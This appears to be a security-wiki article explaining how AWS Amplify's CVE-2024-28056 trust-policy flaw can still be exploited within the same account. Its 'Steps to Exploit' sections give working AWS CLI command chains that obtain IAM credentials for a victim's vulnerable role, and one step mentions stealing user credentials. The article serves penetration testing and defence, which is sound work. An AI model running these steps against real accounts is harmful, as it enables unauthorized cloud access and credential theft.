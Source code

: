 ```yaml
---
author_name: Nick Frichette
title: "CVE-2024-28056: Exploit an AWS Amplify Vulnerability in a Same-Account Scenario"
description: An in-depth explanation of how to still abuse CVE-2024-28056, a vulnerability in AWS Amplify that exposed IAM roles to takeover.
---
```


<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/">Amplified exposure: How AWS flaws made Amplify IAM roles vulnerable to takeover</a> by <a href="https://x.com/Frichette_n">Nick Frichette</a></p>
    <p><img src="https://pbs.twimg.com/profile_images/1778462051670642688/rE7irovE_400x400.jpg" alt="Nick Frichette" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    [AWS Security Bulletin: CVE-2024-28056](https://aws.amazon.com/security/security-bulletins/AWS-2024-003/)
</div>

## Background

In April of 2024, Security Researchers at [Datadog](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/) found a vulnerability in the [AWS Amplify](https://aws.amazon.com/amplify/) service that exposed IAM roles associated with the service to takeover. In particular, under two different scenarios the Amplify service was setting the role trust policies of certain roles to improperly limit which [Cognito identity pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-identity.html) could assume them. As a result, anyone could create their own identity pool (or find one on the internet) and use it to assume these vulnerable roles.

In response to this, AWS made a number of changes to IAM and the [AWS Security Token Service](https://docs.aws.amazon.com/STS/latest/APIReference/welcome.html) (STS) APIs. In particular, this involved:

* Releasing a fix to the [Amplify CLI](https://github.com/aws-amplify/amplify-cli/releases/tag/v12.10.1) and Amplify Studio preventing the creation of more vulnerable roles.
* Made changes to the IAM control plane to prevent anyone from creating role trust policies vulnerable to this misconfiguration. If you try to set a vulnerable policy today it will be rejected.
* Made changes to the STS service to **block cross-account role assumption of roles that have a vulnerable trust relationship with the Amazon Cognito service**.

This final fix is interestingly specific. AWS only made changes to block **cross-account** role assumption, not **same-account** role assumption. As a result of this, we can still potentially take advantage of roles that were made vulnerable by the Amplify service. This requires an identity pool to be configured in the account with the [basic (classic) authflow](https://docs.aws.amazon.com/cognito/latest/developerguide/authentication-flow.html) enabled.

!!! Warning
    **To be clear, this method is more difficult and requires the existence of at least one additional misconfigured resource**, however it is worthwhile to know about if you are a Penetration Tester or Red Teamer, or you simply use Amplify in your own organization.

!!! Note
    This is not realistically something that can be "fixed". AWS was able to block cross-account role assumption because it was a sufficiently rare occurrence. By comparison, same-account role assumption using Cognito is (as of today) the only method available. If you have IAM roles in your account which are vulnerable to this exposure it is recommended to delete them, or change their trust policy in addition to relying on the fixes that AWS provided.

## Unauthenticated Example

![Unauthenticated Scenario](../../../images/aws/exploitation/exploit_amplify_vulnerability_in_same_account_scenario/unauth_same_account_scenario.png)

In this scenario, there exists a vulnerable role in the account, alongside an identity pool that has the basic authflow enabled. This role's trust policy does not require authentication to assume. Here is an example of a vulnerable trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity"
        }
    ]
}
```

!!! Note
    There is another variant of this misconfiguration where the trust policy includes a condition for `cognito-identity.amazonaws.com:amr` that is set to `unauthenticated`.

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. Using the AWS CLI, perform the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id>`
    * This can typically be found in the client side JavaScript of the web application using this identity pool.
2. Using the `IdentityId` from step one, perform the following command: `aws cognito-identity get-open-id-token --identity-id <identity id from step 1>`
    * This will return a JWT we can use to authenticate to the vulnerable role. You can inspect this JWT if you so choose.
3. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 2>`
    * The vulnerable role ARN will need to be [brute-forced](../../enumeration/enum_iam_user_role.md), [derived from other values](../../enumeration/enumerate_principal_arn_from_unique_id.md), found in [source control](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/#results-finding-misconfigured-roles-in-the-wild), or a variety of other means.

By following these steps you should successfully generate IAM credentials for the vulnerable role:

```json
{
    "Credentials": {
        "AccessKeyId": "ASIA123ABC456DEF789G",
        "SecretAccessKey": "123ABC456DEF789G123ABC456DEF789GHI012JKL",
        "SessionToken": "...snip...",
        "Expiration": "2024-07-31T20:02:33+00:00"
    },
    "SubjectFromWebIdentityToken": "us-east-1:00000000-1111-2222-3333-444444444444",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA123ABC456DEF789G:hijacked_role",
        "Arn": "arn:aws:sts::111111111111:assumed-role/vulnerable-amplify-role/hijacked_role"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:aaaaaaaa-1111-bbbb-2222-cccccccccccc"
}
```

## Authenticated Example

In an authenticated scenario, the identity pool in the victim account must be configured to support authentication with a [Cognito user pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-identity-pools.html). An example vulnerable role trust policy can be found below:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "",
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "ForAnyValue:StringLike": {
                    "cognito-identity.amazonaws.com:amr": "authenticated"
                }
            }
        }
    ]
}
```

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. First, find credentials for a user account in the pool. If you cannot steal or create credentials you cannot continue.
2. Authenticate to the user pool using [cognito-idp:InitiateAuth](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/initiate-auth.html). The specific command you will need to use will differ depending on the type of authentication in place. Please refer to the documentation for more information. Here we will demonstrate using `USER_PASSWORD_AUTH`.
    * Run the following command: `aws cognito-idp initiate-auth --auth-flow USER_PASSWORD_AUTH --client-id <client id of the victim user pool> --auth-parameters USERNAME=<username>,PASSWORD=<password>`
    * This will return an `IdToken` that will be used in the next step.
    * Note: The `AccessToken` is **NOT** the same as the `IdToken`. 
3. Run the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id> --logins '{"cognito-idp.<region>.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * This will return an `IdentityId` that will be used in the next step.
4. Run the following command: `aws cognito-identity get-open-id-token --identity-id <IdToken from step 3> --logins '{"cognito-idp.us-east-1.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * Note: You **MUST** include the `logins` parameter, it is not optional.
    * This will return a JWT we will use in the next step.
5. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 4>`

By following these steps you should successfully generate IAM credentials for the vulnerable role.
